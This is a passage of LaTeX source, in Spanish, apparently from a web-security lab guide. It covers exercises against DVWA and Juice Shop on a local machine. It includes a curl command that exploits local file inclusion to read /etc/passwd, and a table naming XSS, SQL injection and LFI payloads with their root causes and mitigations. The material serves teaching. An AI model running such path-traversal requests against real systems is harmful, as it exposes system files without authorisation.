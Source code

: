 \documentclass[11pt,a4paper]{article}
\begin{document}
Se lee un archivo inocuo del sistema y se guarda solo la prueba de acceso. No se recorre el sistema buscando secretos: el objetivo es demostrar la ruta, no exprimirla.

\begin{lstlisting}[style=estiloCodigo]
curl -s -b semana_05/evidencia/cookies.txt \
  'http://127.0.0.1:8081/vulnerabilities/fi/?page=../../../../etc/passwd' \
  | head -5 > semana_05/evidencia/lfi_prueba.txt
wc -l semana_05/evidencia/lfi_prueba.txt
\end{lstlisting}

\subsection{Resolver tres retos de Juice Shop y anotar el razonamiento}

De cada reto se anota la pista, la peticion y por que funciono. El reto resuelto sin explicacion no cuenta como evidencia.

\needspace{8\baselineskip}\subsection{Hallazgo, payload y causa raiz}

\begin{center}
\begin{minipage}{\linewidth}
\centering
{\footnotesize
\textbf{Hallazgo, payload y causa raiz}\par\smallskip
\begin{tabular}{@{}>{\raggedright\arraybackslash}p{1.90cm}>{\raggedright\arraybackslash}p{3.40cm}>{\raggedright\arraybackslash}p{2.60cm}>{\raggedright\arraybackslash}p{3.20cm}>{\raggedright\arraybackslash}p{3.40cm}@{}}
\toprule
\textbf{Hallazgo} & \textbf{Payload} & \textbf{Evidencia} & \textbf{Causa raiz} & \textbf{Mitigacion} \\
\midrule
XSS reflejado & Script en el parametro name & xss\_reflejo.html & Salida sin codificar en la busqueda & Escape contextual \\
Inyeccion SQL & Comilla y OR tautologico en id & sqli\_filas.html & Consulta concatenada & Parametrizacion \\
LFI & Secuencia de directorios en page & lfi\_prueba.txt & Ruta resuelta sin lista blanca & Lista blanca y ruta fija \\
Juice Shop & Peticiones del reto & Anotaciones por reto & Validacion solo en el cliente & Validacion en servidor \\
\bottomrule
\end{tabular}
}
\par{}
\end{minipage}
\end{center}
\end{document}
